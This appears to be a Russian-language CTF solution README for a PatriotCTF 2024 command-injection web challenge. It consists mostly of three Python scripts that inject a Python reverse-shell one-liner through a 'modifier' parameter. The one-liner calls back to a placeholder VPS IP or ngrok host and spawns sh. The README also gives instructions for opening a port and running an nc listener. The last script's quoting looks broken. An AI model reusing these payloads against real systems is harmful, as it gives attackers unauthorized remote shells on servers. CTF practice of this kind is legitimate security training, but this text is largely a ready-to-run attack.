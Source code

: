 # Таск на Command Injection. Здесь собраны несколько решений других людей, самое прикольно это reverse shell

## Исходники [server](server.py) [admink-bot](admin.py)

```
очень хороший write up(не мой) https://www.thesecuritywind.com/post/patriotctf-2024-open-seasame-web
```

#1 Reverse shell через vps

################################
```
from requests import post

url = "http://chal.competitivecyber.club:13336/"

# Замените на IP вашего VPS и нужный порт
vps_ip = "YOUR_VPS_IP"
vps_port = "4444"  # Порт, на котором слушает ваш VPS

payload = {
    "path": f"api/cal?modifier=-1;python3 -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"{vps_ip}\", {vps_port})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); import pty; pty.spawn(\"sh\")'"
}

res = post(f'{url}/visit', data=payload)
print(res.text)
````
$#############################
Настройка VPS для получения обратного shell
Откройте порт на вашем VPS: Убедитесь, что на вашем VPS открыт порт, который будет использоваться для соединения. Например, если вы планируете использовать порт 4444, вам нужно настроить брандмауэр (iptables) и, возможно, настройки вашего VPS-провайдера, чтобы разрешить входящие соединения на этот порт.

Запустите слушатель на вашем VPS: На вашем VPS откройте терминал и выполните команду для создания слушателя. Это можно сделать с помощью netcat (nc):

nc -lvnp 4444

Это позволит вашему VPS принимать входящие соединения на порту 4444.

Измените ваш payload: В вашем коде замените ngrok URL и порт на IP-адрес вашего VPS и порт, который вы открыли:



##################
```
from requests import post

url = "http://chal.competitivecyber.club:13336/"

# Здесь используйте ваш ngrok URL и порт
ngrok_url = "ngrok_tcp_url_here"
ngrok_port = "ngrok_tcp_port_here"

payload = {
    "path": f"api/cal?modifier=-1;python3 -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"{ngrok_url}\", {ngrok_port})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); import pty; pty.spawn(\"sh\")'"
}

res = post(f'{url}/visit', data=payload)
print(res.text)
```

####################
ЧЕрез ngrook
Убедитесь, что ваш ngrok запущен и доступен.
Следите за тем, чтобы не было символов, которые сервер может интерпретировать как недопустимые (например, ;), или модификатор, который не разрешён.

#Original solution
###########
```
from requests import *

url = "http://chal.competitivecyber.club:13336/"

res = post(f'{url}/visit', data={"path":f"api/ca\tl?modifier=-1;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrok tcp url here",ngrok tcp port here));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'"})
print(res.text)
````
#######################
#2 Command Injection
In [solution](solution.py)
